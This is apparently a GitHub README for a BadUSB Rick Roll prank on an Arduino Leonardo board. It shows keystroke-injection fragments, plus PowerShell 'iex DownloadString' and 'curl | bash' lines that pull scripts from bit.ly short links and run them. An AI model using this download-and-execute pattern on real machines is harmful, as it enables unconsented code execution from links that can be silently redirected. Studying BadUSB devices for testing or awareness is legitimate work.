


# BadUSB - RickRoll
## Description 
BadUsb - Leonardo - Arduino - Rick Roll

Simple Arduino script for testing the Leonardo USB (badUsb Beetle). 

If connected to a Windows PC, it will attempt to run the Powershell Rick Roll.
If connected to a Linux PC, it will attempt to run the Bash Rick Roll. 

It will also tumble the keyboard NUM/CAP/SCROLL locks and jump the cursor position. 

External files moved here to prevent executing a scrpit externally from this repo. 
   
 _In case it gets changed to do something more nefarious._
	

### PowerShell Rick Roll 


### Bash Rick Roll


### Overview

1. Inserted BadUSB waits for **_initialdelay** of 10 seconds. 
2. Attempt to detect OS. This will determine which of the two scripts are called. 
3. If **Windows** is detected, the script calls **RUNCOMMAND()** (Windows Key + 'R') for opening the run command window. 
   ```c
   void RUNCOMMAND() 
		{ 
			Press("GUI");  
			Press("r");   
			delay(1000);   
			Keyboard.releaseAll(); 
		}
   ```
   
   Script then attempts to call the [Invoke-PSHtml5.ps1](https://bit.ly/3n8DTGj) script. 
   
   ```powershell
   powershell.exe -Command ""iex (New-Object Net.WebClient).DownloadString('https://bit.ly/3n8DTGj')""
   ```
   You can run this manually from run/cmd prompt for testing. 
   
   Original script is from [leeholmes.com](http://www.leeholmes.com/projects/ps_html5/Invoke-PSHtml5.ps1)
   

	The script has been also be changed to call the [MP3](https://bit.ly/34ZkfWL) from this repo.
   
4. If **Linux** is detected, the script calls **LINUXTERMINAL()** (CRTL + ALT + 'T') for opening a new terminal windows. 
   ```c
	void LINUXTERMINAL() 
		{ 
			Press("CTRL");  
			Press("ALT");  
			Press("t"); 
			Keyboard.releaseAll(); 
		}
   ```
   
   _Used on Ubuntu server, the new terminal request does not affect running of the script._
   
   Script then attempts to call the [roll.sh](https://bit.ly/3rPd3Gv) script.   

   Requires (at least) client to have CURL and Python installed. As well as the other ducky requirements of being logged in, yadda yadda. 
  
   ```sh
   curl -s -L https://bit.ly/386ivNn | bash
   ```

   You can run this manually from terminal prompt for testing.
	
   Original script is from [keroserene](https://raw.githubusercontent.com/keroserene/rickrollrc/master/roll.sh)

   
5. Srcipt then enters a DO WHILE for ~2mins, tubmbling the keyboard locks
   ```c
		Press("CAPSLOCK");
		Keyboard.releaseAll();   
		Press("NUMLOCK"); 
		Keyboard.releaseAll();   
		Press("SCROLLLOCK"); 
		Keyboard.releaseAll();   
   ```
6. Jumps the cursor position
   ```c
		Mouse.move(random(5, 5000), random(5, 5000), 0); 
   ```


## BadUsb Beetle Bad USB Microcontroller ATMEGA32U4


Cheap BadUSB (£3>£10) sold on eBay/Amazon etc. 

## Arduino



## Demo
### Windows 10 


### Ubuntu Desktop

### Ubuntu Server Console


_Yeah, looks grim. Not sure if this is because of the Ubuntu config, or the fact its running on a VM._

## Notes
When first inserted, Windows will install the COM port for the board which can interfere with the running of the script. 

It is possible to disable the COM to effectively seal the unit to just be a HID. Likely preventing you from re-programming the board. 

The GitHub forum post for this is here: https://github.com/arduino/Arduino/issues/6387
